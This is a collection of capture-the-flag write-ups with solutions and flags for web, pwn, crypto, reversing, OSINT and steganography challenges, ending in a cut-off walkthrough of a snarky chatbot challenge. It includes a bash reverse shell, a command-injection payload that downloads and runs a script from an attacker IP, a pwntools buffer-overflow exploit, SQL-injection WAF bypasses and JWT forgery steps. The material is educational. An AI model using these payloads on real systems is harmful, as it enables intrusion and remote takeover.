

Overview
| Challenge | Difficulty | Points | Category | Flag |
|---|---|---|---|---|
| Around The World | Medium | 400 | OSINT | CBCV{trnava_slovakia} |
| Big Machine | Hard | 500 | Pwn | CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352} |
| Breach | easy | 100 | Misc | CBCV{F14GIsHere} |
| Cathedral | easy | 100 | OSINT | CBCV{-8.9103\_-140.1026} OR CBCV{-8.9103\_-140.1030} |
| Easy Flag | easy | 300 | Web | CBCV{p4tH_tr4v3rs4L_v8lN_939851} |
| Hidden Layers | easy | 200 | steganography | CBCV{CRYPT_C4N_B3_L4Y3R5} |
| Who am I? | easy | 350 | Web | CBCV{jWt_t0k3ns_us3d_34} |
| I am Who? | hard | 450 | Web | CBCV{w34K_S3Cr3T_K3y_Cr4CK3d_835} |
| Intellectual Conversation | easy | 200 | Misc | CBCV{1nv151b1l1ty_0r_t1m3_c0ntr0l?} |
| It ain't here | hard | 500 | Reverse engineering | CBCV{b07faa19997299630d615b1a9579d64f} |
| Layers | easy | 150 | Cryptography | CBCV{cRy9T0_L4y3r5_4RE_FuN_3135} |
| Locked | hard | 450 | Reverse engineering | CBCV{h3x_3dIt0r5_t0_Th3_r3scU3_9364} |
| Look beyond what you see | medium | 300 | misc | CBCV{MORSE_OR_REMORSE} |
| Monoalphabetic Shenanigans | hard | 450 | cryptography | CBCV{FREQUENCY_ANALYSIS_FTW} |
| Mouse Trap | medium | 350 | cyptography | CBCV{M0u23_7Ra95_DAng3r_5342} |
| Mr. Robot | hard | 500 | pwn | CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713} |
| My hostel room key | easy | 150 | misc | CBCV{FINAL_FLAG} |
| Passz CheckS | hard | 500 | Reverse Engineering | CBCV{CiCaDAzznotz141} |
| Polyglot | hard | 400 | web | CBCV{0n3_p4Yl0AD_2_w0rLd5_4545} |
| RSA Hard | hard | 400 | cyptography | CBCV{cryptanalysis} |
| SnarkyGPT | hard | 450 | misc | CBCV{snarky_gpt_owns_you_ez} |
| Vibe Checker | hard | 400 | Reverse engineering | CCBCV{R3v3rs1ng_fl0471ng_p01NtS_15_e4zY_r1ght_36} |
| Where's The Flag? | hard | 400 | steganography | CBCV{1t5_n01_4_5p4c3_bUt_4_mY573Ry_009315} |
| Your Eyes | easy | 150 | steganography | CBCV{such_4N_3s4y_1_r34lLy?} |
Around The World
Around the World
- Author: Aakansh Gupta (Unknown)
This is a purley OSINT based CTF. Use tools like Google lens or Google Earth
Since we know the flag starts with CBCV{XXXX} format, we try an search it. Image was taken from Google Earth: https://earth.google.com/web/@48.24320818,17.6841851,122.62258148a,0d,90y,113.92109797h,93.75353085t,0r/data=CgRCAggBIhoKFmEzZENqNGtRN3Y5TDJuMVhpR2NjTFEQAjoDCgEwQgIIAEoICJvNmbsHEAA
The flag would be:
CBCV{trnava_slovakia}
Flag
CBCV{trnava_slovakia} Big Machine
Big Machine
- Author: Aakansh Gupta (Unknown)
Check the website on the given url

It shows the pin result for given IPs. Try and get a reverse shell on it. Since most common commands are blocked, we try and send a script from attacked to the machine like:
1
2
3
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x ` We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.
After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using env , you get the flag

The flag found is:
CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
Flag
CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352} Breach
Breach
- Author: Harsh Singh (DeadStar) Using steghide we can get the hidden file in the image.
POPI{S14TVfUrer}
The Actual aftering decoding it with rot13 cipher is
Flag Reterived is:
CBCV{F14GIsHere}
Flag
CBCV{F14GIsHere} Cathedral
The Cathedral
A quick Google Image Search reveals the location: Notre Dame Cathedral, Nuku Hiva, French Polynesia.

From there, we head over to Google Earth (or Google Maps), locate the site, and switch to Street View. The exact coordinates can be extracted directly from the URL in the browser.

The flag found is:
CBCV{-8.9103_-140.1026} OR CBCV{-8.9103_-140.1030}
Flag
CBCV{-8.9103\_-140.1026} OR CBCV{-8.9103\_-140.1030} Easy Flag
Easy Flag
- Author: Aakansh Gupta (Unknown)
A simple web base path traversal vulnerability. Clicking on any on the links leads to a url like: http://20.244.12.130:50002/view?file=db_errors.log Just try and change the view?file=db_errors.log to common paths like ../app.py or ../flag.txt
Visiting http://20.244.12.130:50002/view?file=../flag.txt give:

A string of hex numbers: ` 57 56 57 50 7b 6a 34 6e 42 5f 6e 6c 34 70 33 6c 6d 34 46 5f 70 38 66 48 5f 39 33 39 38 35 31 7d `
Using CyberChef we can decode these to WVWP{j4nB_nl4p3lm4F_p8fH_939851}
Using a ROT6 cypher we get: CBCV{p4tH_tr4v3rs4L_v8lN_939851}
The flag found is:
CBCV{p4tH_tr4v3rs4L_v8lN_939851}
Flag
CBCV{p4tH_tr4v3rs4L_v8lN_939851} Hidden Layers
Hidden Layers
- Author: Amarnath
Initial Steps
- Find Morse code.
- Convert to Base32.
- Apply ROT13.
- Remove EVEN Postion Alphabets.
Further Solving and Steps
1
2
3
4
5
6
7
8
9
# Step 1: USE Morse decoder
<img src="../images/morsedecoded1.png" />
# Step 2 & 3: Base32 decode and ROT13
<img src="../images/from32baseandrot13.png" />
# Step 4:Remove Alphabets from EVEN Postion
ACBBCCDVE{FCGRHYIPJTK_LCM4NNO_PBQ3R_SLT4UYV3WRX5Y}Z
Final Flag reterived is:
CBCV{CRYPT_C4N_B3_L4Y3R5}
Flag
CBCV{CRYPT_C4N_B3_L4Y3R5} Who am I?
Who am I?
- Author: Aakansh Gupta (Unknown)
Simple JWT based ctf. Visit the given url and look for the cookie user .
Decode it using tools like www.jwt.io
It give the flag as "sub":"CBCV{jWt_t0k3ns_us3d_34}"

The flag found is:
CBCV{jWt_t0k3ns_us3d_34}
Flag
CBCV{jWt_t0k3ns_us3d_34} I am Who?
I am Who?
- Author: Aakansh Gupta (Unknown)
A longer version of it’s parent CTF who am i . This requires none Algorithm attack and secret key verification.
Visit the given page and check the cookie. This time we have an admin page. This requires elevated privilages.
Use jwt.io to encode a cookie without any algorithm to bypass auth.

This allows access to admin panel. But this isnt the end, we reqire another endpoint finalcheck And a new role called superadmin is needed. We can brute force common secret keys like secret or qwerty (in this case its qwerty).
Using jwt.io we craft a cookie and send it.

Now we can access the /finalcheck endpoint and see the flag.
The flag found is:
CBCV{w34K_S3Cr3T_K3y_Cr4CK3d_835}
Flag
CBCV{w34K_S3Cr3T_K3y_Cr4CK3d_835} Intellectual Conversation
Intellectual Conversation
- Author: Aadhyanth
Encoding: convert each character to ascii and insert \u200b after that many characters
Decoding: find distance between 2 zero-width characters and convert take chr()
python code:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
def hide_flag_in_text(text, flag):
zwsp = "\u200b"
result = ""
flag_index = 0
char_count = 0
for ch in text:
result += ch
char_count += 1
# check if we've reached the ascii value position for current flag character
if flag_index < len(flag) and char_count == ord(flag[flag_index]):
result += zwsp
flag_index += 1
char_count = 0 # reset counter
return result
def decode_flag_from_text(encoded_text):
char_count = 0
flag = ""
for ch in encoded_text:
if ch == '\u200b':
flag += chr(char_count)
char_count = 0
else:
char_count += 1
return flag
# Usage
huge_text = """TRANSCRIPT-1
Discussion between Dr. Sarah Chen (Theoretical Physicist) and Prof. Marcus Rodriguez (Materials Science)
...
...
Prof. Rodriguez: Thank you, Sarah. I look forward to continuing this conversation as the field evolves.
[End of Transcript]
"""
flag = "CBCV{1nv151b1l1ty_0r_t1m3_c0ntr0l?}"
encoded_text = hide_flag_in_text(huge_text, flag)
print("Encoded text:")
print(encoded_text)
with open('transcript.txt', 'w', encoding='utf-8') as file:
file.write(encoded_text)
file.close()
with open('transcript.txt', 'r', encoding = 'utf-8') as file:
data = file.read()
print("\nDecoded flag:")
print(decode_flag_from_text(data))
Output: Encoded text: Squeezed text (182 lines).
The flag found is:
CBCV{1nv151b1l1ty_0r_t1m3_c0ntr0l?}
Flag
CBCV{1nv151b1l1ty_0r_t1m3_c0ntr0l?} It ain't here
It ain’t here
- Author: Aakansh Gupta (Unknown)
Lets first run the file and its properties
1
2
3
4
5
6
┌──(kali㉿kali)-[~/Desktop/Cyscom/6]
└─$ ./challenge.run
Verifying archive integrity... 100% MD5 checksums are OK. All good.
Uncompressing It ain't here 100%
Can you really break the pincode? ...
Try if you must:
Entering any wrong pin shows bad pin and exits the program. What we can try is “Keyboard Interrupt In Linux” by pressing ctrl+c during execution. This shows us the location of the executing python script.
1
2
3
4
5
6
7
8
Can you really break the pincode? ...
Try if you must: ^CTraceback (most recent call last):
File "/tmp/selfgz116517/./pin_checker.py", line 105, in <module>
main()
File "/tmp/selfgz116517/./pin_checker.py", line 82, in main
pin = input("Try if you must: ")
KeyboardInterrupt
Signal caught, cleaning up
But visiting it after execution shows nothing. So we try and access it while executing the program. Here we find a python file with tons of flags.
But what we need is the flag from this function:
1
2
3
4
5
6
7
def generate_real_flag(pin):
FLAG_PREFIX = "CBCV{%s}"
hashed_pin = hashlib.blake2b((pin + "blindinglights").encode("utf-8")).hexdigest()[:32]
return FLAG_PREFIX % hashed_pin
This is called when entered pin is 98315. Use this to get the correct flag with the program.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
if pin == "98315":
print("Looks good to me...")
print("I guess I'll generate a flag")
try:
req = requests.get("http://example.com", timeout=2)
req.raise_for_status()
except requests.exceptions.RequestException:
print("Warning: Could not verify secondary network status.")
real_flag = generate_real_flag(pin)
print(real_flag)
else:
print("Bad pin!")

The flag found is:
CBCV{b07faa19997299630d615b1a9579d64f}
Flag
CBCV{b07faa19997299630d615b1a9579d64f} Layers
Layers
- Author: Om Mishra
Description
The challenge provides an encoded string. It is encrypted using a Caesar cipher with a shift of 7, then Base64 encoded.
Steps to Solve
- Take the given encoded string:
Q0JEVntrb3RyeX...} - First, decode it from Base64.
- Next, apply a Caesar cipher decryption with shift = 19.
- You will get the final flag.
Flag
CBCV{cRy9T0_L4y3r5_4RE_FuN_3135}
Flag
CBCV{cRy9T0_L4y3r5_4RE_FuN_3135} Locked
Locked
- Author: Aakansh Gupta (Unknown)
Lets first run the file and its properties
1
2
3
┌──(kali㉿kali)-[~/Desktop/Cyscom/5]
└─$ ./challenge.run
Verifying archive integrity... 100% Error in MD5 checksums: cd6432c66be8a7696954be1324b594cf is different from 6432c66be8a7696954be1324b594cf
Running the file tells us that there are errors in MD% checksums. If we try to match the hash using editors like VSCode or Nano (Non-hex editors), the file is corrupted.
1
2
3
4
┌──(kali㉿kali)-[~/Desktop/Cyscom/5]
└─$ ./challenge.run
Verifying archive integrity... Unexpected archive size.
To try and fix the MD5 Check, we need to use hex editors like hexedit. We know 2 in hex is 32 and 0 in hex is 30. Replace these values with the hexeditor where there are 0s.

Now run the file again. We get the flag
1
2
3
4
5
┌──(kali㉿kali)-[~/Desktop/Cyscom/5]
└─$ ./challenge.run
Verifying archive integrity... 100% MD5 checksums are OK. All good.
Uncompressing Lost in the Wild 100%
CBCV{h3x_3dIt0r5_t0_Th3_r3scU3_9364}
The flag found is:
CBCV{h3x_3dIt0r5_t0_Th3_r3scU3_9364}
Flag
CBCV{h3x_3dIt0r5_t0_Th3_r3scU3_9364} Look beyond what you see
Look beyond what you see
- Created by: P C Guhan (DaBot)
Description
Look beyond what you see (Change the brackets in the flag to {} when submitting)
Solution
Upon opening the txt file in a standard hex editor, we find that the file consists of only 3 characters - \x00 (null), \x20 (space) and \xe2\x80\x8b (Zero Width Space). Here we substitute \x00 as a space, \x20 as ‘.’ and \xe2\x80\x8b as ‘- and get the morse code encoded text. We then decode it to get the flag.
Script:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
import re
def substitute_morse_escaped(filename, output_filename):
with open(filename, "r", encoding="utf-8") as f:
raw_text = f.read()
decoded_bytes = raw_text.encode("utf-8").decode("unicode_escape").encode("latin1")
decoded_bytes = decoded_bytes.replace(b"\xe2\x80\x8b", b"-")
decoded_bytes = decoded_bytes.replace(b"\x20", b".")
decoded_bytes = re.sub(b'\x00{3,}', b' ', decoded_bytes)
decoded_bytes = re.sub(b'\x00', b' ', decoded_bytes)
morse_code = decoded_bytes.decode("utf-8")
with open(output_filename, "w", encoding="utf-8") as out:
out.write(morse_code)
if __name__ == "__main__":
substitute_morse_escaped(
"hexa.txt",
"morse_output.txt"
)
Final flag reterived:
CBCV{MORSE_OR_REMORSE}
Flag
CBCV{MORSE_OR_REMORSE} Monoalphabetic Shenanigans
Monoalphabetic Shenanigans
- Author: P C Guhan (DaBot)
Description
Looks Secure? Check again Add the CBCV{flag} and underscores while submitting the flag (ALL CAPS)
script_redacted.py:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
def __(_0, _1, _2, _3):
___ = list(map(ord, _3))
____ = (_0 << 0) ^ (_1 >> 0) ^ (_1 - _1)
_____ = (_1 ^ 0) * (_2 ^ 0)
return [__import__("builtins").pow(x, ____ or _0, _____) for x in ___]
with open("plaintext.txt", "r") as f:
T = f.read().strip()
p = REDACTED
q = REDACTED
e = 65537
output = __(e, p, q, T)
with open("output.txt", "w") as f:
f.write(str(output))
Solution
Here, RSA is implemented by converting each letter to its ASCII value and then encrypting it. Hence each letter will have the same encrypted value. Since there are only 26 unique encoded numbers, we can map each cipertext to a letter. Once mapped, the cipertext needs to be replaced with the letter and then a frequency analysis can be run.
A frequency analysis refers to the guessing of the correct cipertext based on the number of occurences of a letter in the text. This can be done using online tools.
Script:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
import re
import string
def read_encrypted(filename):
with open(filename, "r") as f:
content = f.read()
return list(map(int, re.findall(r"\d+", content)))
def map_numbers_to_letters(encrypted_numbers):
unique_numbers = sorted(set(encrypted_numbers))
if len(unique_numbers) > 26:
raise ValueError(f"Too many unique numbers: {len(unique_numbers)} (max 26 allowed)")
letters = list(string.ascii_lowercase)
mapping = {num: letter for num, letter in zip(unique_numbers, letters)}
return mapping
def substitute_numbers_with_letters(encrypted_numbers, mapping):
return "".join(mapping.get(num, "?") for num in encrypted_numbers)
def main():
encrypted_file = "output.txt"
decoded_file = "test.txt"
encrypted_numbers = read_encrypted(encrypted_file)
mapping = map_numbers_to_letters(encrypted_numbers)
decoded_text = substitute_numbers_with_letters(encrypted_numbers, mapping)
with open(decoded_file, "w") as f:
f.write(decoded_text)
if __name__ == "__main__":
main()
Output: test.txt
The we need to do frequency analysis on the output file i.e. test.txt. Upon doing frequency analysis using online resources. We get the frequency of each letter and the approximate substitution which will give us the desired result. 
This webiste: https://www.dcode.fr/frequency-analysis provides the ability to directly substitute the required letters and the gives the flag as FLAGFREQUENCYANALYSISFTW.
Final flag reterived:
CBCV{FREQUENCY_ANALYSIS_FTW}
Flag
CBCV{FREQUENCY_ANALYSIS_FTW} Mouse Trap
Mouse Trap
- Author: Akshaya H
The mouse is trapped inside the “system cheese” and we should save it, but how?
1
connect to the server using: nc 20.244.12.130 50005
The server starts the challange.
Step 1: Break the Secret Locks
First, we had a SHA-256 hash and generally SHA-256 can be “decrypted”, using decoders.
Use: https://www.dcode.fr/sha256-hash
This will give us the name of the cheese which they are trapped in.
Then comes the Playfair cipher – an old-school pen-and-paper cipher where letters are scrambled using a 5×5 grid. We just needed to check if the given Playfair text matched the expected decrypted form.
So basically:
- Encrypt the cheese name using Playfair message for the escape sequence.
- This is to crack the “LR Dance”
For the Playfair Cipher, Use: https://encryptdecrypt.tools/tools/ciphers/playfair.php
Once the cipher text was ready, we have to do the next trick:
Odd-positioned letters - R (Right) Even-positioned letters - L (Left)
This gives us a secret L/R sequence. Enter the sequence, which finally reveals the flag. Using this script, we can find the key.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
import hashlib
import random
import string
def sha256(x):
return hashlib.sha256(x.encode()).hexdigest()
def load_cheeses(filename="cheese.txt"):
with open(filename, "r") as f:
cheeses = [line.strip() for line in f if line.strip()]
return cheeses
def generate_playfair_key_matrix(key):
key = key.upper().replace("J", "I")
matrix = []
used = set()
for char in key:
if char not in used and char in string.ascii_uppercase:
matrix.append(char)
used.add(char)
for char in string.ascii_uppercase:
if char == "J": # skip J
continue
if char not in used:
matrix.append(char)
used.add(char)
return [matrix[i:i+5] for i in range(0, 25, 5)]
def find_position(matrix, char):
for r, row in enumerate(matrix):
for c, val in enumerate(row):
if val == char:
return r, c
return None
def playfair_encrypt(text, matrix):
text = text.upper().replace("J", "I")
prepared = []
i = 0
while i < len(text):
a = text[i]
b = ""
if i+1 < len(text):
b = text[i+1]
if a == b:
b = "X"
i += 1
else:
i += 2
if b == "":
b = "X"
prepared.append((a, b))
cipher = ""
for a, b in prepared:
r1, c1 = find_position(matrix, a)
r2, c2 = find_position(matrix, b)
if r1 == r2:
cipher += matrix[r1][(c1+1)%5] + matrix[r2][(c2+1)%5]
elif c1 == c2:
cipher += matrix[(r1+1)%5][c1] + matrix[(r2+1)%5][c2]
else:
cipher += matrix[r1][c2] + matrix[r2][c1]
return cipher
def cipher_to_lr(cipher_text):
sequence = ""
for ch in cipher_text:
if not ch.isalpha():
continue
idx = ord(ch) - ord('A') + 1
if idx % 2 == 0:
sequence += "L"
else:
sequence += "R"
return sequence
def main():
print("🐭 Welcome to the Mouse & Cheese Playfair Challenge! ")
cheeses = load_cheeses("cheese.txt")
cheese = random.choice(cheeses)
target_hash = sha256(cheese)
print("\nThe mouse whispers: 'Here’s the hash of my cheese...'")
print("Hash:", target_hash)
user_cheese = input("\n🔍 Enter the cracked cheese word: ").strip()
if user_cheese.lower() != cheese.lower():
print("Wrong cheese! The mouse stays trapped...")
return
print("Correct cheese! Now, encrypt it with a cipher, Wheatstone's friend loved to play so much...")
matrix = generate_playfair_key_matrix("mousecheese")
cipher_text = playfair_encrypt(user_cheese.upper(), matrix)
user_cipher = input("\nEnter the Playfair ciphertext: ").strip().upper()
if user_cipher != cipher_text:
print("\n[!] Wrong ciphertext! The mouse shakes its head...")
return
print("\n[+] Correct ciphertext! The mouse is impressed.")
print("\n Clue for the final path:")
print(" Oh, maybe the 'odd' ones are always 'left (L)' out in the list.")
print(" And the rest all are 'right' to be split 'even'! ")
print(" Work it out, smartie! ")
correct_lr = cipher_to_lr(cipher_text)
print(correct_lr)
user_lr = input("\nEnter the full sequence: ").strip().upper()
if user_lr == correct_lr:
print("\n CYBER{m0u$etr@p}")
else:
print("\n [!] Wrong sequence using L/R! The mouse laughs at your attempt...")
if _name_ == "_main_":
main()
The flag found is:
CBCV{M0u23_7Ra95_DAng3r_5342}
Flag
CBCV{M0u23_7Ra95_DAng3r_5342} Mr. Robot
Mr. Robot
- Author: Aakansh Gupta (Unknown)
Classic Buffer Overflow CTF. Connecting to the server through netcat gives:
1
2
3
4
5
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety?
Enter your answer >
Any answer to this returns:
1
2
3
4
5
6
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety?
Enter your answer > Elliot Alderson
You aren't thinking straight Elliot!
We try to decompile the file using decompilers like gdb and check breakpoints after entering a huge value:
1
2
3
4
5
6
7
8
9
pwndbg> run
Starting program: /home/kali/Desktop/Cyscom/3/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Who is the leader of fsociety?
Enter your answer > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Program received signal SIGSEGV, Segmentation fault.
Use this data to find the value overriden by the RIP register. Use ` cyclic -l 0x6161616b6161616a ` (for example only) to find offset vlaue with RIP register. Now find the ` win() ` function address within gdb using print win . Similarly, find the ret gadget using ` ROPgadget –binary ./vuln –only “ret” ` outside gdb. We are using a pwntools exploit script to automatically run and get the flag from the server using the values we found.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
from pwn import *
context.arch = 'amd64'
offset = 72
win_address = 0x4011b6
ret_gadget = 0x401016
p = remote("20.244.12.130", 50001)
payload = b'A' * offset + p64(ret_gadget) + p64(win_address)
log.info(f"Payload: {payload}")
p.recvuntil(b'> ')
p.sendline(payload)
p.interactive()
Running the script produces the output as the required flag. 
The flag found is:
CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
Flag
CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713} My hostel room key
My hostel room key
- Author: K S Vignesh
Decode the key given in the text file 3 times using Base64 to get a decrypted string.
You will find a Google Drive link — follow it.
You will get a PDF there; go to the last page and you will find another Google Drive link to download an image.
Download the image and open it using Notepad.
There you will see a flag-like text inside curly brackets, but it is not the final flag (you’re almost there).
Decode the string present inside the curly brackets 6 times using Base64.
You will get the final answer, which should be placed inside curly brackets.
FLAG: CBCV{FINAL_FLAG}
Flag
CBCV{FINAL_FLAG} Passz CheckS
Passz CheckS
Challenge Description
You are given a password checker program which is encrypted through an algorithm, decipher,decomipiler and decode the file to find the password
Inspect binary file and Locate custom alphabet and encoded flag strings password_checker | grep -E "(Correct!|Wrong!|Usage:|[A-Za-z0-9+/]{10,})"
Locate XOR key (12 bytes) xxd password_checker | grep -A2 -B2 "0a0b 0c0d
Locate expected-hash bytes (0x7a repeated) grep -a -b -o "zzzz" password_checker xxd password_checker | sed -n '94,96p'
Compute password from key and target byte 0x7a
1
2
python3 - <<'PY' xor_key = [0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F, 0x10, 0x11, 0x12, 0x13, 0x14,
0x15] expected = 0x7A password = ''.join(chr(expected ^ b) for b in xor_key) print(password) PY
Retrieve flag ./password_checker "pqvwtujkhino"
Final flag is:
CBCV{CiCaDAzznotz141}
Flag
CBCV{CiCaDAzznotz141} Polyglot
Polyglot
- Author: Prithvi
In this challenge, we are given a single endpoint behind a WAF:
1
http://20.244.12.130:8092/submit
The WAF blocks common SQL injection patterns (like OR, AND, UNION) and rejects malformed JSON. Our goal is to craft a payload that passes the WAF and retrieves the flag.
Step 1: Test basic input
We start by sending a normal JSON string:
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"test"}'
Expected response:
1
{ "status": "ok", "received_normalized": "test" }
- This confirms the endpoint accepts valid JSON and returns a normalized version of our payload.
- Malformed JSON triggers:
1
{ "error": "invalid json" }
Step 2: Probe the WAF
Next, we try simple SQLi strings:
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' or '1'='1"}'
Output:
1
{ "error": "blocked: sqli" }
- This indicates the WAF blocks literal
OR. - Other attempts like
AND,UNION, or--are similarly blocked.
Step 3: Find a bypass technique
We observe that:
- The WAF uses simple regex word-boundary checks (blocks literal keywords).
- The endpoint accepts JSON input, meaning we can inject characters inside the string.
Idea: use an inline SQL comment to split the keyword:
1
o/**/r
ORis now broken acrosso/**/r→ WAF regex does not match.- The payload is still valid JSON and may normalize internally on the hidden server.
Step 4: Test polyglot payload
We construct the candidate payload:
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' o/**/r '1'='1"}'
- Variations with spacing inside the comment are also tested:
1
2
admin' o/**/ r '1'='1
admin' o/**/r '1'='1
All variations are valid polyglot payloads:
- Pass WAF
- Normalize internally to a hidden target string
- Trigger flag return
Step 5: Analyze responses
- Payloads blocked by WAF return
{"error":"blocked: sqli"} - Malformed JSON returns
{"error":"invalid json"} - Correct polyglot returns:
1
{ "flag": "CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}" }
- Only polyglot-style payloads of this type work.
- Any naive attempt like
"admin' or '1'='1"fails due to WAF.
Step 6: Summary
- Challenge concept: input interpreted in two contexts (JSON + SQL)
- WAF protection: blocks common SQL keywords
Solution: craft a polyglot payload that:
- Is valid JSON
- Uses inline comments or other tricks to bypass regex
- Normalizes to the hidden server’s expected string
1
2
3
4
# Conceptual normalization inside hidden server
payload = "admin' o/**/r '1'='1"
normalized = payload.replace("/**/", "").strip().lower()
# normalized == "admin' or '1'='1"
The flag found is:
CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
Flag
CBCV{0n3_p4Yl0AD_2_w0rLd5_4545} RSA Hard
RSA Hard
- Author: Om Mishra
Challenge (what participant gets)
You are given:
n = 5860838794991910814284665112683385463954646048771125316431872432348926417447
e1 = 17
e2 = 65537
c1 = 3720477122812330210392570666622835188001585746013783461634956703564926609316
c2 = 2374066440947720297446444451505697411347728841883956859393928588819879545418
Recover the original plaintext (ASCII) and submit it as the flag.
Hints
gcd(e1, e2) = 1→ find integersa,bsuch thata*e1 + b*e2 = 1.- Use:
m = (c1^a * c2^b) mod n. For negative exponents, use modular inverses. - Convert integer
m→ bytes → ASCII.
Walkthrough
- Compute extended gcd to get
a, bwitha*e1 + b*e2 = 1. - Compute
part1 = c1^a (mod n)(handle negativeavia inverse). - Compute
part2 = c2^b (mod n)(handle negativeb). m = (part1 * part2) % n. Convertmto bytes → that is the flag.
Expected flag (hidden): CBCV{cryptanalysis}
Reference solver
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
# solver_rsa_common.py
# Pure-Python solver for RSA common modulus challenge.
def egcd(a, b):
if b == 0:
return a, 1, 0
g, x1, y1 = egcd(b, a % b)
return g, y1, x1 - (a // b) * y1
def modinv(a, m):
g, x, y = egcd(a, m)
if g != 1:
raise ValueError("No inverse")
return x % m
def modexp_with_signed_exponent(base, exp, mod):
if exp >= 0:
return pow(base, exp, mod)
inv = modinv(base, mod)
return pow(inv, -exp, mod)
n = 322373040362292717649168841216788477297
e1 = 17
e2 = 65537
c1 = 12755149773111262113925394772571626614
c2 = 199765691046492609176467359736241258709
g, a, b = egcd(e1, e2)
if g != 1:
raise SystemExit("e1 and e2 are not coprime")
print("Found coefficients a, b:", a, b)
part1 = modexp_with_signed_exponent(c1, a, n)
part2 = modexp_with_signed_exponent(c2, b, n)
m = (part1 * part2) % n
# convert int -> bytes
def int_to_bytes(x):
if x == 0: return b'\x00'
length = (x.bit_length() + 7) // 8
return x.to_bytes(length, 'big')
pt = int_to_bytes(m)
print("Recovered bytes:", pt)
print("Recovered string:", pt.lstrip(b'\x00').decode('utf-8'))
Final flag recovered is:
CBCV{cryptanalysis}
Flag
CBCV{cryptanalysis} SnarkyGPT
SnarkyGPT CTF Challenge Walkthrough
Step 1: Trying Basic Stuff
Like any hacker, you start with common commands:
ls→ “u think wandering around works?”whoami→ “Someone lost their identity? ”give me flag→ “Imagine thinking politeness unlocks secrets.”
Nothing useful. Just mockery.
Step 2: Forbidden Words
Certain words instantly trigger strikes:
flag,password,secret,exploit, etc.
SnarkyGPT responds with warnings like:
- “Forbidden incantation detected.”
- “Oops. You just triggered a tripwire.”
After 3 strikes, you get baited with a fake flag:
1
CBCV{nice_try_but_this_is_fake}
And the session locks. No recovery without refreshing.
Step 3: Finding the Ritual
Eventually you notice some phrases actually progress the challenge instead of roasting you.
Example:
i am stupid→ “Heh… that’s embarrassing, but it moved something.”
You realize this is part of a multi-stage humiliation sequence.
Step 4: Stage Progression
The ritual has four stages.
Stage 1 - Self-roast
- Trigger:
i am stupidORme stupid - Response: “Heh… that’s embarrassing, but it moved something.”
- Trigger:
Stage 2 - Beg
- Trigger:
pleaseORbeg - Response: “Pathetic. And yet, somehow… effective.”
- Trigger:
Stage 3 - Admit defeat
- Trigger:
